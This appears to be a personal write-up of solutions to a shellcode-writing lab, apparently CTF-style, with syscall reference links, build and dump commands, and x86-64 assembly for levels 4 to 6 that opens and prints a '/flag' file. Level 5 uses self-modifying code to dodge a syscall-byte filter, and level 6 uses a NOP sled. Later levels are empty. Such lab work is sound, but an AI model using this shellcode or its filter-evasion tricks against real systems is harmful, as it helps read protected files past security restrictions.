# level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
syscall

push 0
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
syscall

.section .data

```
## 5
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:

# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# sendfile(1,fd,0,60)
push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 6
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:
# fill the r-x area
.rept 4096
    nop
.endr
# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# sendfile(1,fd,0,60)
push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 7
```s

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
